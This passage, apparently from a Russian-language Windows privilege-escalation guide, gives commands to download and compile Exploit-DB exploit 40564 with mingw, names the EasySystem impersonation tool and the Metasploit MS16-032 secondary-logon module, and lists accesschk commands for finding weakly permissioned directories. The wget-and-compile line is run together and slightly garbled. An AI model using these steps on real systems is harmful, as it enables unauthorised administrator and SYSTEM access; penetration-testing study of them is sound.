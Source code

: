 После выполнения команды в системе создается пользователь User1 с паролем Password1, который добавляется в группу администраторов. Однако для Windows 10 нужно использовать ключ Trigger 2.

Чтобы скомпилировать эксплойт для Windows (например, для повышения привилегий) из-под linux:

```bash
apt update
apt install mingw-w64
```

Дальше все просто. Качаем exploit и компилируем: 

```bash
wget ‐‐output-document= 40564.c https://www.exploitdb.com/download/40564 i686-w64-mingw32-gcc 40564.c –o exploit.exe –lws2_32
```

### EasySystem

Если у вас уже есть локальный администратор, и задача сводится к получению системных привилегий - [EasySystem](https://github.com/Cn33liz/EasySystem)

Как отмечает сам автор, это не эксплойт, а «старый и грязный» трюк с использованием имперсонации именованных каналов.

Утилита позволяет получить права NT AUTHORITY\SYSTEM, что может быть полезно в некоторых ситуациях.

### Secondary Logon Handle

Еще один интересный трюк связан с использованием службы «Вторичный вход в систему»
- позволяет запускать программы, консоли Microsoft Management и элементы панели управления от имени администратора
- даже если текущий пользователь принадлежит к группе Users или Power Users.

Суть в том, что данный сервис не очищает хендлы при создании новых процессов.

В Metasploit Framework есть специальный [модуль](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms16_032_secondary_logon_handle_privesc.rb):<br>`exploit/windows/local/ms16_032_secondary_logon_handle_privesc`

Для использования модуля требуется активная meterpreter-сессия. Ее нужно указать в параметрах команды: `set SESSION 1`.

Если эксплуатация пройдет успешно, появится новая сессия с повышенными привилегиями.

### Разрешения на доступ к файлам

Обнаружение директории с некорректными разрешениями — это уже половина успеха. Однако ее нужно сначала найти. Для этого можно воспользоваться следующими двумя инструментами: [AccessChk](https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk) и [Cacls/ICacls](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls).

Чтобы найти при помощи AccessChk «слабые» директории, понадобятся данные команды:

```cmd
accesschk.exe -uwdqs users c:\
accesschk.exe -uwdqs “Authenticated Users” c:\
```
